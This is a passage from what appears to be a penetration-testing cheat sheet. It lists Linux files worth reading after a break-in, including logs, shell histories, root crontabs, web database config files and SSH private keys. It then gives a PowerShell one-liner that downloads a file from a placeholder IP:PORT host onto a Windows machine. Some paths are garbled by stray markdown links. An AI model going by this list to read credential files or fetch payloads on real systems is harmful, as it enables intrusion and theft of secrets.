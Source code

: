 ```
/var/log/vsftpd.log
/var/log/wtmp
/var/log/xferlog
/var/log/yum.log
/var/mysql.log
/var/run/utmp
/var/spool/cron/crontabs/root
/var/webmin/miniserv.log
/var/www/html/__init__.py
/var/www/html/db_connect.php
/var/www/html/utils.php
/var/www/log/access_log
/var/www/log/error_log
/var/www/logs/access_log
/var/www/logs/error_log
/var/www/logs/access.log
/var/www/logs/error.log
~/.atfp_history
~/.bash_history
~/.bash_logout
~/.bash_profile
~/.bashrc
~/.gtkrc
~/.login
~/.logout
~/.mysql_history
~/.nano_history
~/.php_history
~/.profile
~/.ssh/authorized_keys
#id_rsa, id_ecdsa, id_ecdsa_sk, id_ed25519, id_ed25519_sk, and id_dsa
~/.ssh/id_dsa
~/.ssh/id_[dsa.pub](http://dsa.pub)
~/.ssh/id_rsa
~/.ssh/id_edcsa
~/.ssh/id_[rsa.pub](http://rsa.pub)
~/.ssh/identity
~/.ssh/[identity.pub](http://identity.pub)
~/.viminfo
~/.wm_style
~/.Xdefaults
~/.xinitrc
~/.Xresources
~/.xsession
```

#### File Transfers

**Downloading on Windows**

```bash
powershell -command Invoke-WebRequest -Uri [http://IP:PORT/file](http://IP:PORT/file) -Outfile C:\temp\file
```
